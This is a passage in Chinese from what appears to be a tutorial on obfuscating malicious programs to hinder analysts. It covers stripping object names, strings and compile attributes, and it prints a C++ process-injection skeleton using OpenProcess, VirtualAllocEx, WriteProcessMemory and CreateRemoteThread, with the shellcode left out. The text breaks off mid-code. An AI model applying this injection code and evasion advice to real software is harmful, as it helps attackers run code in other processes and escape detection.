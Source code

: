 可识别信息（如变量名、函数名、字符串常量、调试信息等）是分析师剖析和理解恶意程序功能的最关键线索之一。通过限制或消除这些可识别信息，攻击者可以显著增加分析难度，使得分析师难以重建程序的原始功能和意图。

从高层次来看，应考虑混淆或移除以下三种类型的可识别数据：

1. **对象名 (Object Names)**
2. **代码结构 (Code Structure)** (已在前述控制流和布局混淆中部分涉及)
3. **文件/编译属性 (File/Compilation Attributes)**

##### 1. 对象名 (Object Names)

对象名（包括变量名、函数名、类名等）能够提供关于程序功能的最直接的洞察，有时甚至能直接揭示某个函数或变量的确切目的。即使没有明确的命名，分析师仍可能从对象的行为和使用上下文中推断其目的，但如果缺乏有意义的名称，这个过程将变得更加困难和耗时。

- **重要性差异 (解释型 vs. 编译型语言)**:
    
    - **解释型语言 (如 Python, PowerShell)**: 由于源代码或脚本通常更易于访问，所有对象名（变量、函数等）都相对重要，对其进行混淆可以有效增加理解难度。
    - **编译型语言 (如 C, C++, C#)**: 编译后，大部分局部变量名和许多内部函数名在标准发行版 (Release) 构建中会被优化掉或不再直接可见。此时，更有意义进行混淆的是那些仍然会出现在最终二进制文件字符串表中的对象名（例如，用作日志输出的字符串、API 函数名字符串参数、全局字符串常量等），以及导出的函数名（如果是 DLL）。任何执行 I/O 操作或与其他组件交互的功能，都可能使其使用的对象名（作为字符串参数）出现在二进制文件中。
- **分类法关联**: 《分层混淆分类法》中的“代码元素层” -> “无意义的标识符 (Meaningless Identifiers)”方法总结了这类实践。
    
- 示例 1: 编译型语言 (C++) - 移除有意义的标识符和字符串
    
    观察一个用 C++ 编写的简单进程注入程序，在其混淆前后通过 strings.exe 工具分析其泄露的字符串信息。
    
    - **原始 C++ 代码 (包含 `iostream` 输出和有意义的变量名)**:
        
        C++
        
        ```
        #include "windows.h"
        #include <iostream> // 用于输出调试信息
        #include <string>   // 用于 std::string
        using namespace std;
        
        int main(int argc, char* argv[])
        {
            unsigned char shellcode[] = { /* ... shellcode bytes ... */ }; // 变量名 "shellcode"
            HANDLE processHandle;
            HANDLE remoteThread;
            PVOID remoteBuffer;
            string leaked = "This was leaked in the strings"; // 字符串常量
        
            processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
            cout << "Handle obtained for " << processHandle << endl; // 输出信息
            remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            cout << "Buffer Created" << endl;
            WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
            cout << "Process written with buffer " << remoteBuffer << endl;
            remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
            CloseHandle(processHandle);
            cout << "Closing handle " << processHandle << endl;
            cout << leaked << endl; // 输出字符串常量
        